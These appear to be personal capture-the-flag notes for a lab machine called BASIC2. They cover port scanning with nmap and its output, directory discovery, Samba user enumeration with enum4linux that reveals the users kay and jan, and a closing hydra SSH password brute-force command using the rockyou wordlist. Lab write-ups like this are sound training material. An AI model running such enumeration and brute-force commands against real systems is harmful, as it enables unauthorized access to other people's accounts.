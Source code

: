 pinging 10.10.35.142 first to verify it's up, and it returns packets.

# Scanning
first nmap scan>
sudo nmap -sC -sV -A -vv -F 10.10.35.142
checking for open ports and whatever useful info about the system

``` .txt
## Ports found
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
|   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
|_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
| ajp-methods:
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http        Apache Tomcat 9.0.7
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.7

```

# dirbuster
![[Pasted image 20240805040240.png]]

dirbuster immediately finds these directories in the website, /development being hinted at before and sending to two .txt files talking about credentials.


# enum4linux
i need to find  the usernames, enumeration will  check for usernames (-U) in the samba machine used for this backend.

*enum4linux -a 10.10.213.187 | tee enum4linux.log


[I] Found new SID:                                                                                        
S-1-5-32                                                                                                  

[+] Enumerating users using SID S-1-5-21-2853212168-2008227510-3551253869 and logon username '', password ''                                                                                                        
                                                                                                          
S-1-5-21-2853212168-2008227510-3551253869-501 BASIC2\nobody (Local User)                                  
S-1-5-21-2853212168-2008227510-3551253869-513 BASIC2\None (Domain Group)

[+] Enumerating users using SID S-1-22-1 and logon username '', password ''                               
                                                                                                          
**S-1-22-1-1000 Unix User\ kay (Local User)                                                                  
S-1-22-1-1001 Unix User \jan (Local User)

[+] Enumerating users using SID S-1-5-32 and logon username '', password ''


# hydra
hydra -l -jan -P /usr/share/wordlists/rockyou.txt  ssh10.10.213.187
